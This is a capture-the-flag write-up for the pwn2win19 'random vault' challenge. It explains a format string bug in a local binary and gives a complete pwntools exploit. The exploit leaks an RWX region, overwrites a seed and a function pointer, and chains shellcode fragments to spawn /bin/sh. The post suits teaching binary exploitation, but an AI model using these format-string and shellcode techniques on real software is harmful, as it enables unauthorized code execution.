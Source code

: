 ```yaml
---
layout: post
title: pwn2win19 - random vault
date: 2019-11-19 00:00:00
categories: 
    - ctf
tags:
    - ctf
    - linux
    - x64
    - format string
    - binary exploitation
---
```


### Sources

[https://github.com/fachrioktavian/ctf-writeup/tree/master/pwn2win19/randomvault](https://github.com/fachrioktavian/ctf-writeup/tree/master/pwn2win19/randomvault)

### Summary

This challenge is from pwn2win19 ctf. I didn't join the ctf. Solve this challenge by scraping for the binary in ctftime and solve it locally.

#### Overview

So the binary is a program which saves datas. The datas then being store on a memory with random address.

```terminal
❯ ./random_vault
Welcome to the Vault!
Username: blabla

=== VAULT ===
Hello, blabla

Actions:
1. Change username
2. Store secret
3. Reset vault
4. Quit

2
Secret #1: 1
Secret #2: 2
Secret #3: 3
Secret #4: 4
Secret #5: 5
Secret #6: 6
Secret #7: 7
You've stored the following secrets:
#1: 1, #2: 2, #3: 3, #4: 4, #5: 5, #6: 6, #7: 7
Keep secret? (y/n) y
Ok! Your data is SAFE.
```

#### The bugs

1. There is format string vulnerability exists on a function that's called to write down username.

    ```c
    unsigned __int64 __fastcall sub_1412(const char *global_buf)
    {
        unsigned __int64 v1; // ST18_8
        v1 = __readfsqword(0x28u);
        printf("Hello, ");
        sub_12BD(1, 2, 3, 4, 5, 6);
        printf(global_buf, 2LL); // format string
        puts(byte_2056);
        return __readfsqword(0x28u) ^ v1;
    }
    ```

#### Exploitation's Scenario

For the first time i thing this is just a straightforward format string challenge. Use the bug to leak some information and then overwrite some pointer to gain shell access, but there are some logic that make it hard to solve:

- we can only run the format string attack twice. First at the start while program runs, second is when we use `change username` function.

    ```c
    if ( qword_4020[a2] == 0x8161412171513111LL ) // check the value
    {
        printf("Username: ");
        fgets(global_buf, 81, stdin);
        global_buf[81] = 0;
        qword_4020[a2] = 0LL; // zeroed buf
    }
    ```

- username's buffer spaces are only 80 bytes so can only do arbitrary write approx 12 bytes using `%hn` format. It's difficult if we want to do multiple read and write at the same time.

The scenario will be:

1. Leaking a RWX regions as program places a function pointer and seed for `store secret`:

    ```c
    srand(seed);
    for ( i = 0; i <= 6; ++i )
    {
        printf("Secret #%d: ", (i + 1));
        v0 = rand();
        secret_array[i] = ((v0 >> 56) + v0) - ((v0 >> 31) >> 24);
        __isoc99_scanf("%llu", &unk_5010 + 8 * secret_array[i]);
    }
    ```

2. Overwriting seed's value to specific value so we can control where to store secret. And fortunately secrets are stored in RWX region, so we can execute it if we inject shellcode.

3. Overwriting function pointer at RWX region so it's pointing to the our shellcode.

### Exploitation

#### Helper

For cleaner exploit script, we use helper function.

```python
def init(r, cnt):
    r.recv()
    r.sendline(cnt)

def change_username(r, cnt):
    r.recv()
    r.sendline("1")
    r.recv()
    r.sendline(cnt)

def store_secret(r, s):
    r.recv()
    r.sendline("2")
    for d in s:
        r.recv()
        r.sendline(d)

r = process("./random_vault", aslr=1)
```

#### Stage 1. Leaking RWX region

Using format string vulnerability to leak the region that has RWX permission.

```python
pload_leak = "%p|"*11
init(r, pload_leak)
d = r.recvuntil("Actions:").split("|")
rwx = int(d[10], 16) + 0x38b0
seed = rwx + 0x8
```

#### Stage 2. Calculating address of secret

After overwriting seed's value to 1 later in stage 3, we can determine where our secret will be stored in memory using dynamic analysis through debugger. Later we will placed our shellcode in the secret variable and chains them with `jmp` instruction so it connects one another (like a linked-list). So to make the shellcode easier, order of shellcode in secret will be places from the lowest to higher memory.

```python
loc = [0x67, 0xc6, 0x69, 0x73, 0x51, 0xff, 0x4a] # shellcode order will be 7, 5, 1, 3, 4, 2, 6
sc_start = rwx + 0x10
sc_loc = []
for i in loc:
    sc_loc.append(sc_start+(8*i))
```

#### Stage 3. Overwriting function pointer and seed value

Using format string vulnerability, overwrite seed's value to 1 and function pointer to point to start of shellcode (secret no #7).

```python
entry = sc_loc[6] & 0xffff
seed_val = 1
z = "%{}c%29$n|%{}c|%30$hn".format(seed_val.__str__(), (entry-seed_val-2).__str__())
pload_z = z.ljust(40, 'A') + p64(seed) + p64(rwx)
change_username(r, pload_z)
```

#### Stage 4. Calculating secret value and storing secret

We build the shellcode to read from stdin and make program run our previous input shellcode from stdin that will call execve("/bin/sh").

```python
c = asm(shellcraft.linux.read('rax', 'rdx', 0x5000))

''' disasm(c)
0:   48 89 c7                mov    rdi,rax
3:   31 c0                   xor    eax,eax # ignored
5:   48 89 d6                mov    rsi,rdx
8:   31 d2                   xor    edx,edx
a:   b6 50                   mov    dh,0x50
c:   0f 05                   syscall
'''

sc_7 = c[0:3:] + "\xeb{}".format(chr(sc_loc[4] - sc_loc[6]- 5))
sc_7 = sc_7.ljust(8, "\x00")
sc_5 = c[5:10:] + "\xe9{}".format(chr(sc_loc[0] - sc_loc[4]- 5 - 5))
sc_5 = sc_5.ljust(8, "\x00")
sc_1 = c[0xa:0xe:] + "\xe9{}".format(chr(sc_loc[2] - sc_loc[0]- 5 - 5 - 6))
sc_1 = sc_1.ljust(8, "\x00")
secret = [str(u64(sc_1)), "0", "0", "0", str(u64(sc_5)), "0", str(u64(sc_7))]
store_secret(r, secret)
```

#### Stage 5. Sending shellcode

```python
s = asm(shellcraft.linux.sh())
r.sendline("B"*0xf1 + s)
```

#### Pwned

```terminal
❯ python solve.py
[+] Starting local process './random_vault': pid 15280
[*] Stage 1 > Leaking RWX region
[+]         > RWX region address: 0x55d1740e6000, seed address: 0x55d1740e6008
[*] Stage 2 > Calculating address of secret
[*] Stage 3 > Overwriting function pointer and seed value
[*] Stage 4 > Calculating secret value and storing secret
[*] Stage 5 > Sending shellcode
[+] Pwn!
[*] Switching to interactive mode
$ uname -a
Linux fokt 5.0.0-31-generic #33~18.04.1-Ubuntu SMP Tue Oct 1 10:20:39 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```
